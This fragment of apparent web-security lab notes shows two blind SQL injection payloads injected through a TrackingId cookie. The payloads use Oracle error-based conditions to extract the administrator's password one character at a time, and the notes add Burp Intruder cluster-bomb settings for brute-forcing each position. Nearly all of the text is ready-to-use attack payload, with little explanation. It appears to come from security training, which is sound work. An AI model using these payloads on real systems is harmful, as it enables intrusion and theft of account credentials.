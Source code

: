* Cookie: TrackingId=Cqduog6aHApTYY1C'||(SELECT CASE WHEN SUBSTR(password,§1§,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||';

* Cookie: TrackingId=Cqduog6aHApTYY1C' AND (SELECT CASE WHEN SUBSTR(password,§1§,1)='§a§' THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE username='administrator') = 'a'-- 

![alt text](image-43.png)

* Cluster bomb
* payload1 --> Numbers --> From 0 To 20 Step 1

![alt text](image-45.png)
